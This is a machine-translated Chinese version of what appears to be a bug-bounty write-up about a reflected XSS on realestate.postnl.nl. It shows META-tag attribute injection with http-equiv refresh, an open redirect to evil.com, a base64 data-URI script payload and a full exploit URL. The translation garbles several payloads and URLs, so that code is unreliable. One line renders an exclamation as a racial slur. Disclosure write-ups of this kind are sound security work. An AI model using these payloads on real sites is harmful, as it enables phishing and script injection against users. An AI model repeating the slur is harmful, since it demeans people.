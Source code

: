 # 在 realestate.postnl.nl 中使用 META 标记绕过 XSS

> 原文：<https://infosecwriteups.com/xss-bypass-using-meta-tag-in-realestate-postnl-nl-32db25db7308?source=collection_archive---------0----------------------->

嗨，读者们，

今天我将写一个我向 [postnl.nl 漏洞奖励计划](https://www.postnl.nl/en/responsible-disclosure/)报告的 XSS 漏洞。

**脆弱的端点:**【http://realestate.postnl.nl/?Lang=】T4

为了测试一个正常的反射 XSS，我在参数 **Lang** 中输入了 **" > < xsstest >** ，在源代码中，它被正确地反映在 META 标记中，如下所示

```
<meta name="language" content=""><xsstest>" />
```

看起来很简单对吗？然后稍微等一下:')。然后我输入**"><img src = x>**，我得到:-

![](img/12847dd007a35f74570450ba5915c152.png)

给你个惊喜，黑鬼🥳🥳🥳

我尝试了许多 HTML 标签，在这里我得到了两点

*   不允许任何有效的 HTML 标记。
*   我可以在这里创建任何属性。

所以我谷歌了一下元标签属性，得到了:-

![](img/7e26ca9ce01baecbdfb36e4a30c557b1.png)

看起来很有趣🤔🤔🤔

http-equiv 属性引起了我的注意。现在，我再次谷歌更多关于它的信息，并了解到:-

META 标签有 **http-equiv** 指令。此指令允许您在 HTML 代码中定义相当于 HTTP 头的内容。 **http-equiv** 指令可以接受 **refresh** 的值，该值可用于将用户重定向到另一个页面。

然后我输入**0；HTTP://evil . com " HTTP-EQUIV = " refresh "**得到的回应是:-

```
<meta name="language" content="0;http://evil.com"HTTP-EQUIV="refresh"" />
```

我被转到了 evil.com。所以我现在打开了重定向。现在我们可以试试 URI·XSS 的数据。于是我输入:-**0；JavaScript:alert(1)" HTTP-EQUIV = " refresh "**响应为:-

![](img/12847dd007a35f74570450ba5915c152.png)

这再次被分类为有效负载中使用的关键字 **javascript** 。所以我用了 Base64 编码的有效载荷:-**0；数据:文本/html；base64，phnjcmlwd 5 wcm 9 tchqoiljlzmxly 3 rlzcbyu 1 mgqnkguhjpywwikitwvc 2 nya XB 0 pg = = " HTTP-EQUIV = " refresh "**，响应源为:-

```
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5wcm9tcHQoIlJlZmxlY3RlZCBYU1MgQnkgUHJpYWwiKTwvc2NyaXB0Pg=="HTTP-EQUIV="refresh"" />
```

现在当我访问 http://realestate.postnl.nl/?时 lang = 0% 3b data % 3a text % 2 fhtml % 3b base 64% 2 cphnjcmlwd 5 wcm 9 tchqoiljlzmxly 3 rlzcbyu 1 mgqnkguhjpywwikitwvc 2 nya XB 0 pg % 3D % 3D % 22 http-EQUIV % 3D % 22 refresh % 22 我得到了 XSS 弹出窗口。

![](img/d68fb7f7522ba4803cbc45fdc4ab1988.png)

我向他们的[零直升机报告单](https://app.zerocopter.com/rd/caff4c53-e588-440b-9b07-c54b8e877c83)报了。然后他们通过将**数据列入黑名单部署了一个补丁:text/html；base64** 关键字，就像他们已经将 **JavaScript** 关键字列入黑名单，但当用户访问:-[http://realestate.postnl.nl/?时，我仍然可以打开重定向 lang = 0% 3 bhttp % 3A % 2f % 2 fevil . com % 22 http-EQUIV % 3D % 22 refresh % 22](http://realestate.postnl.nl/?Lang=0%3Bhttp%3A%2f%2fevil.com%22HTTP-EQUIV%3D%22refresh%22)

![](img/e7fb919fac350ebf60fcfd5abbebb95b.png)

看起来很酷🙄🙄🙄

他们再次解决了这个问题，把我的名字列在了他们的名人堂页面上，还提出要送一些好东西😍😍😍。

![](img/546fefb54e2196cd38dce06f2aca2465.png)

😍😍😍

感谢阅读。

在推特上关注我

如果你有任何疑问，请在[脸书](https://www.facebook.com/prial261)问我